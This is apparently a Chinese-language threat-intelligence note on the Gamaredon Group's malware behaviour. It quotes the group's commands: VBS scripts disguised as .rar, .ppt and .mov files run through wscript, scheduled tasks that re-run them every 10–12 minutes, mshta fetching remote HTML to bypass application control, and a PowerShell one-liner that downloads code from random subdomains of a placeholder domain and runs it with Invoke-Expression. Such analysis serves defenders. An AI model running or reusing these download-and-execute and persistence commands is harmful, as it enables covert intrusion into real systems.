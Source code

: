 # Gamaredon Group

## 特征

1. depended.exe负载会执行两个VBS脚本:

> "CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\roaming\reflect.rar //e:VBScript //b
>	"CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\local\temp\deep-thoughted. //e:VBScript //b

然后会创建计划任务来确保持久性SCHTASKS /CREATE /sc minute /mo 10 /tn "deep-thoughted" /tr "wscript.exe " CSIDL_COMMON_PICTURES\deep-thoughted.ppt //e:VBScript //b" /F，该计划任务每10分钟运行一次.
当然，该组织也会使用MSHTA来绕过应用程序控制策略:"CSIDL_SYSTEM\cmd.exe" /c CSIDL_SYSTEM\mshta.exe http://域名/FILM.html /f id=[REDACTED].

2. 投递的Pterodo恶意软件活跃时将会通过其他的命令控制器下载脚本和工具，然后创建计划任务.

```bash
"CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\local\temp\12382. //e:VBScript //b
"CSIDL_SYSTEM\cmd.exe" /c CSIDL_SYSTEM\mshta.exe http://域名/7-ZIP.html /f id=<?,?>
CSIDL_SYSTEM\mshta.exe http://域名/7-ZIP.html /f id=<?,?>
//MSHTA执行绕过
"CSIDL_SYSTEM\schtasks.exe" /CREATE /sc minute /mo 12 /tn "MediaConverter" /tr "wscript.exe " CSIDL_COMMON_MUSIC\mediatv.mov //e:VBScript //b " /F"
"CSIDL_SYSTEM\schtasks.exe" /CREATE /sc minute /mo 12 /tn "VideoHostName" /tr "wscript.exe " CSIDL_COMMON_VIDEO\videotv.m3u //e:VBScript //b " /F"
//每12分钟执行
```

3. 恶意软件经常以随机子域作为命令控制器.

```powershell
"powershell.exe" $tmp = $ (New-object net.webclient) .DownloadString('http://'+[System.Net.DNS]::GetHostAddresses([string]$(Get-Random)+'.域名')+'/get.php');Invoke-Expression $tmp
```
